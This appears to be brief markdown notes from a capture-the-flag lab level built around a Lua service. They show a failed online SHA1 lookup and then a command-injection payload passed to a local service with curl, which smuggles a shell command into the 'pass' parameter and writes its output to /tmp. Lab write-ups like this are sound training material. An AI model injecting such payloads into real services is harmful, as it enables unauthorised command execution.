 # useful links
* https://www.lua.org/about.html

# cmd
* ``ls``
    * level11.lua -> it's also a binary
* ``cat level11.lua`` -> see level11.lua
* try 1 : reverse sha1sum on internet of h
    * https://sha1.gromweb.com/?hash=f05d1d066fb246efe0c6f7d095f909a7a0cf34a0 -> NotSoEasy :rofl:
* try 2 : having fun with curl
    * ``curl 'localhost:5151?pass=$(getflag)'`` -> ``Password: Erf nope..``
        * we have to good method but we have to save the flag before hash
    * ``curl 'localhost:5151?pass=$(getflag>/tmp/res.txt)'``
    * ``cat /tmp/res.txt``
